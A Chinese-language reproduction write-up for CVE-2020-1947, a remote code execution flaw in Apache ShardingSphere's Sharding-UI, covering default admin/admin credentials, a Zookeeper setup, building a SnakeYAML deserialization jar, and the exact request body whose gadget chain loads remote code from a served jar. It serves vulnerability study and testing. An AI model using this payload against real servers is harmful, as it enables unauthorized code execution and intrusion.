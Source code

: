 ```yaml
---
title: "（CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞"
id: zhfly2820
---
```


# （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Apache ShardingSphere < 4.0.1

## 三、复现过程

Sharding-UI的默认密码为admin/admin

![image](../img/147e7311c28fb049fe2cf3e71bb77142.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![image](../img/bf565702c7f822801b9a05a45927c1d4.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。 这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

```
docker pull zookeeper
docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest 
```

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![image](../img/30653ea188b55d648b7f60ee44a2c0b4.png)

成功连接即可。

![image](../img/bcdbc80e07d3553feaa9e622d4aaa3ba.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload 修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![image](../img/51bcc62473bcb95bd303645786163866.png)

编译生成jar包：

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ . 
```

然后使用python本地搭建HTTPServer，等待连接。

```
python -m SimpleHTTPServer 90 
```

### 代码执行

在web端的Rule Config——>Add Schema处加入YAML代码并提交。

![image](../img/5ab144c9732d8a86f50d9a825045780d.png)

数据包正文：

```
{"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"} 
```

发送即可成功弹出计算器。

![image](../img/7d6239e52c07a74da31df063de235006.png)